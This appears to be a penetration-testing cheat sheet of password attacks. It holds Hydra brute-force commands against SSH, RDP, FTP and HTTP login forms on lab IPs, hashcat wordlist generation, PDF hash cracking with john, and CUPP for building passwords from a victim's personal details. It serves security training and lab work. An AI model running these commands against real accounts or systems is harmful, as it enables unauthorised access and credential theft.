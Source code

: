#### Simple SSH & RDP Examples

```bash
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

#### Custom Wordlist

```bash
hashcat --stdout -a 0 -r /usr/share/hashcat/rules/best64.rule custom-wordlist.txt > wicked.txt
```

#### Cracking PDF

```bash
pdf2john Infrustructure.pdf > pdf.hash
john -wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
```

#### Hydra FTP Example (with known usernames)

```bash
hydra -I -V -f -L users.txt -u -P /opt/SecLists/Passwords/xato-net-10-million-passwords.txt 192.168.179.46 ftp
```

#### HTTP Examples

As before, we'll specify -l for the user, -P for the wordlist, the target IP without any protocol, and a new http-post-form argument, which accepts three colon-delimited fields.

The first field indicates the location of the login form. In this demonstration, the login form is located on the index.php web page. The second field specifies the request body used for providing a username and password to the login form, which we retrieved with Burp. Finally we must provide the failed login identifier, also known as a condition string.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

When you run into Basic Authentication, use the following script as a reference:

```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt -t 1 "http-get://192.168.249.201/:A=BASIC:F=401"
```


### [CUPP](https://github.com/Mebus/cupp)

Generate passwords based on your knowledge of the victim (names, dates...)

```
python3 cupp.py -h
```
